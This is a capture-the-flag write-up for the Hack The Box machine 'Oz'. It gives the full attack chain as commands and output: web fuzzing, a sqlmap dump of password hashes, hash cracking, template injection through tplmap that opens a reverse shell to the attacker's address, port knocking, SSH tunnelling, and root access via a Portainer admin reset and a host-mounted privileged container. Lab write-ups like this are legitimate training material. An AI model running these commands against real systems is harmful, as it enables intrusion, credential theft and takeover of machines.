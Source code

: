 # Oz
[![Oz](https://www.hackthebox.eu/storage/avatars/58f516e793394d6df9f6d5d56e9b7ac6.png)](https://www.hackthebox.eu/home/machines/profile/152)

## Initial Foothold
### Nmap
We run nmap.
```sh
$ nmap -A -v 10.10.10.96
80/tcp   open  http    Werkzeug httpd 0.14.1 (Python 2.7.14)
|_http-favicon: Unknown favicon MD5: 74DEB5B89F2D7EEE2CB1F05597640DE7
| http-methods: 
|_  Supported Methods: HEAD OPTIONS GET POST
|_http-server-header: Werkzeug/0.14.1 Python/2.7.14
|_http-title: OZ webapi
|_http-trane-info: Problem with XML parsing of /evox/about
8080/tcp open  http    Werkzeug httpd 0.14.1 (Python 2.7.14)
|_http-favicon: Unknown favicon MD5: 131B03077D7717DBFF2E41E52F08BC7A
| http-methods: 
|_  Supported Methods: HEAD GET POST OPTIONS
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
| http-title: GBR Support - Login
|_Requested resource was http://10.10.10.96:8080/login
|_http-trane-info: Problem with XML parsing of /evox/about
```

If we open it through a browser and try to bust directories, we eventually see that the server is set up to respond randomly in different requests. If we pay attention to responses, we realize that they return a single line. So if we only hide responses that return a single line we might get something.
```sh
$ wfuzz -c -z file,/usr/share/dirb/wordlists/common.txt --hl 0 http://10.10.10.96/FUZZ

********************************************************
* Wfuzz 2.2.11 - The Web Fuzzer                        *
********************************************************

Target: http://10.10.10.96/FUZZ
Total requests: 4614

==================================================================
ID	Response   Lines      Word         Chars          Payload    
==================================================================

000001:  C=200      3 L	       6 W	     75 Ch	  ""
004245:  C=200      3 L	       6 W	     79 Ch	  "users"
````
Directory "users" seem to return different results. Indeed, if we view page source code there are more than one lines.
Now we can run dirb on this directory.
```sh
$ dirb http://10.10.10.96/users

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

---- Scanning URL: http://10.10.10.96/users/ ----

+ http://10.10.10.96/users/admin (CODE:200|SIZE:21)
```

We suspect that here might be a parameter, because of the json results we got, so why not try to inject.
```sh
$ sqlmap --risk 3 -u 10.10.10.96/users/admin --dump

+----+-------------+----------------------------------------------------------------------------------------+
| id | username    | password                                                                               |
+----+-------------+----------------------------------------------------------------------------------------+
| 1  | dorthi      | $pbkdf2-sha256$5000$aA3h3LvXOseYk3IupVQKgQ$ogPU/XoFb.nzdCGDulkW3AeDZPbK580zeTxJnG0EJ78 |
| 2  | tin.man     | $pbkdf2-sha256$5000$GgNACCFkDOE8B4AwZgzBuA$IXewCMHWhf7ktju5Sw.W.ZWMyHYAJ5mpvWialENXofk |
| 3  | wizard.oz   | $pbkdf2-sha256$5000$BCDkXKuVMgaAEMJ4z5mzdg$GNn4Ti/hUyMgoyI7GKGJWeqlZg28RIqSqspvKQq6LWY |
| 4  | coward.lyon | $pbkdf2-sha256$5000$bU2JsVYqpbT2PqcUQmjN.Q$hO7DfQLTL6Nq2MeKei39Jn0ddmqly3uBxO/tbBuw4DY |
| 5  | toto        | $pbkdf2-sha256$5000$Zax17l1Lac25V6oVwnjPWQ$oTYQQVsuSz9kmFggpAWB0yrKsMdPjvfob9NfBq4Wtkg |
| 6  | admin       | $pbkdf2-sha256$5000$d47xHsP4P6eUUgoh5BzjfA$jWgyYmxDK.slJYUTsv9V9xZ3WWwcl9EBOsz.bARwGBQ |
+----+-------------+----------------------------------------------------------------------------------------+
```
After a lot time of cracking hashes, for some, we come up with a password.
```sh
$ echo '$pbkdf2-sha256$5000$BCDkXKuVMgaAEMJ4z5mzdg$GNn4Ti/hUyMgoyI7GKGJWeqlZg28RIqSqspvKQq6LWY' > hash
$ john -form:PBKDF2-HMAC-SHA256 hash /usr/share/wordlists/rockyou.txt

wizardofoz22
```
From the sqlmap dump we did previously "sqlmap --risk 3 -u 10.10.10.96/users/admin --dump", we can see the ticket bellow:
```
Reissued new id_rsa and id_rsa.pub keys for ssh access to dorthi.
```
It is worthwhile to take a look if ssh keys are forgotten in dorthi's home directory.
```sh
$ sqlmap --risk 3 -u 10.10.10.96/users/admin --file-read=/home/dorthi/.ssh/id_rsa
```
Good, now we have a private ssh key for user dorthi but yet, it is passphrase protected and we don't have the credentials plus, port 22 it's not even open.
Back to the web api on port 8080 we login like wizard.oz
```
username: wizard.oz
password: wizardofoz22
```
At the top right of the page there is an add button from wich we should be able to create new ticket.
If we take a look at nmaps results, we see this:
```
http-server-header: Werkzeug/0.14.1 Python/2.7.14
```
The server use python [Template](http://jinja.pocoo.org/docs/2.10/templates/) which might be injectable.
The tool we are going to use is tplmap and it can be found [here](https://github.com/epinna/tplmap).
```sh
$ nc -lvp 5656
$ python2.7 tplmap.py -u "http://10.10.10.96:8080" -d "name=skata*&desc=skatd*" -c "token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6IndpemFyZC5veiIsImV4cCI6MTU0MzU4MzQyNX0.BYHb6iO2zGT6jlgI89QmxUX8n1bDizJdDiRDD021BUo" --reverse-shell 10.10.14.16 5656
```
The values of the POST request are random and the token is the cookie of the current user session.

***Warning!*** The token expire after some time.

We now got a reverse shell. If we dig around a bit, we will figure out that we are inside a [docker](https://www.docker.com/) container. After some very basic enumeration we find some credentials as well as a port knock sequence (probably for the port 22), on the corresponding paths.
```sh
$ cat /containers/database/start.sh
-e MYSQL_USER=dorthi \
-e MYSQL_PASSWORD=N0Pl4c3L1keH0me \

$ cat /.secret/knockd.conf
sequence	= 40809:udp,50212:udp,46969:udp
```
Lets try port knocking and see if any ports open.
```sh
$ apt install knockd
$ knock 10.10.10.96 40809:udp 50212:udp 46969:udp
$ nmap -A -v 10.10.10.96
Discovered open port 80/tcp on 10.10.10.96
Discovered open port 22/tcp on 10.10.10.96
Discovered open port 8080/tcp on 10.10.10.96
```
As we can see along with ports 80 and 8080, port 22 is now opened.
Lets connect with [ssh](https://github.com/pamehabai6/Permission-Denied/blob/master/Write-ups/Oz/rsa_id).

***Warning!*** The port will close after 15 seconds.
```sh
$ chmod 500 id_rsa
$ knock 10.10.10.96 40809:udp 50212:udp 46969:udp
$ ssh -i rsa_id dorthi@10.10.10.96
Enter passphrase for key 'id_rsa': N0Pl4c3L1keH0me
```
Finally... we have ssh connection.
Running the command bellow, we see that we can execute some docker commands as root.
```sh
$ sudo -l
User dorthi may run the following commands on Oz:
    (ALL) NOPASSWD: /usr/bin/docker network inspect *
    (ALL) NOPASSWD: /usr/bin/docker network ls
```
We first run the ls command to check what networks are created and then we can inspect a specific network.
```sh
$ sudo /usr/bin/docker network ls
NETWORK ID          NAME                DRIVER              SCOPE
fb9c66028c43        bridge              bridge              local
49c1b0c16723        host                host                local
3ccc2aa17acf        none                null                local
48148eb6a512        prodnet             bridge              local

$ sudo /usr/bin/docker network inspect fb9c66028c43
"Name": "portainer-1.11.1",
"EndpointID": "6f700a3e7c7a7ae3b8accd6e89b1fd495da7805473901af9c71cbb02a1e4eafb",
"MacAddress": "02:42:ac:11:00:02",
"IPv4Address": "172.17.0.2/16",
"IPv6Address": ""
```
The machine is running portainer-1.11.1 web app on 172.17.0.2, where Portainer is a GUI for docker management.
All that remains now is to find the port and do ssh tuneling so we can have local access via our web browser.
```sh
$ nmap -A -v 172.17.0.2
Discovered open port 9000/tcp on 172.17.0.2
```
Great, portainer is running on port 9000, the default one.
Let's do the tunneling.
```sh
$ exit
$ knock 10.10.10.96 40809:udp 50212:udp 46969:udp
$ ssh -L 9000:172.17.0.2:9000 -i rsa_id dorthi@10.10.10.96
Enter passphrase for key 'id_rsa': N0Pl4c3L1keH0me
```
Once we are logged in, we open up the browser and type.
```
127.0.0.1:9000
```
Now we have to login somehow. After some googling, [found out](https://gist.github.com/deviantony/77026d402366b4b43fa5918d41bc42f8) that you can initialize the admin password.
Run this from the remote machine.
```sh
$ http POST 172.17.0.2:9000/api/users/admin/init Username="admin" Password="adminpassword"
HTTP/1.1 200 OK
Content-Length: 0
Content-Type: text/plain; charset=utf-8
Date: Thu, 06 Dec 2018 15:44:53 GMT
```
Now we can login with:
```
username: admin
password: adminpassword
```
Hit Login. Given the fact that Portainer is running as root, we can exploit the volumes feature. Volumes in docker let us share directories and files between host and container and while root doing that, we can share any file and directory we want.
Before we create a new container, we memorize a name of the listed images so we can put it on the next step. We click on ***Containers -> Add container***.
![portainer1](./images/Screenshot_2018-12-06_18-01-46.png)

Then we set ***Name, Image ***(the image name we memorized before)***, Entry Point, Working Dir, User, Console***, as in the image bellow.
![portainer2](./images/Screenshot_2018-12-06_18-04-23.png)

We move on to the ***Volumes*** tab and we set the following. ***Add volume button -> tick Path checkbox -> set path "/" for host -> set path "/host" for container***. What we did is shared the root directory of the host machine with a specific directory inside the container which name is "host" (a random name).
![portainer3](./images/Screenshot_2018-12-06_18-05-52.png)

Finally, on Security/Host tab we check the ***Privileged mode*** box and click ***Create***.
![portainer4](./images/Screenshot_2018-12-06_18-06-15.png)

Back in ***Containers*** tab again, we find our container we just created and click on its name.
![portainer5](./images/Screenshot_2018-12-06_18-06-51.png)

On ***Container details*** page, we click on ***console***.
![portainer6](./images/Screenshot_2018-12-06_18-07-08.png)

Next, hit ***Connect***.
![portainer7](./images/Screenshot_2018-12-06_18-07-27.png)

Now, we have an ***Interactive TTY*** session on our container.
Final step.
```sh
$ cat /host/root/root.txt
bGVsZWxlbGVsZWxlbGVsZWxlbGVsZWxlbGVsZWxlbGVsZWxlbGVsZWxlbGVsZWxl
```
We got ***ROOT!!!***   



[![bertolis](https://www.hackthebox.eu/badge/image/27897)](https://www.hackthebox.eu/home/users/profile/27897)  [![Oz](https://www.hackthebox.eu/images/logofull-tr-web.png)](https://www.hackthebox.eu/)
